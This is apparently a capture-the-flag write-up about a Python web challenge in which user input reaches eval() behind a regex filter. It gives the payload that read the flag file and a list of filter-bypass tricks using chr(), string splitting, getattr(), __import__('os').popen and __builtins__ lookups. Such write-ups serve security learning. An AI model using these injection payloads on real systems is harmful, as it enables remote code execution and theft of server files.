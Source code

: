 # Description

- Users input is being used in ```eval()``` function.
- We can see from html comment that site is made from python and a regex filter is in place to prevent rce exploitation.Bypassing regex filter can give us access to the flag.

- <img width="1883" height="243" alt="image" src="https://github.com/user-attachments/assets/bb15b84e-2eed-4c59-8317-98f3b2922538" />
- ```open(chr(47) + 'f' + 'l' + 'a' + 'g' + '.' + 't' + 'x' + 't' ).read()``` worked as backslash and file extensions like .txt are also filtered so we needed to bypass it by splitting them and using chr() to convert integer to coorresponding character.

### Bypass Techniques
1. Use chr() for blocked special characters : chr(47)  # For '/' ,  chr(92)  # For '\'
2. Split strings to bypass extension or keyword filters : '.' + 't' + 'x' + 't'    # instead of '.txt'
3. Use getattr() to avoid dot operator : getattr(open(chr(47) + 'flag'), 'read')()
4. Use __import__('os') or __import__('subprocess') for shell commands : __import__('os').popen('cat ' + chr(47) + 'flag').read() , __import__('subprocess').check_output(['cat', chr(47) + 'flag'])
5. Obfuscate function names using string concatenation : If function names like read(),open() are being detected use this method. (__builtins__.__dict__['o' + 'pen'])(chr(47) + 'flag').read(). builtins is like dictonary like object which stores builtin functions and we can dynamically access them.

- 
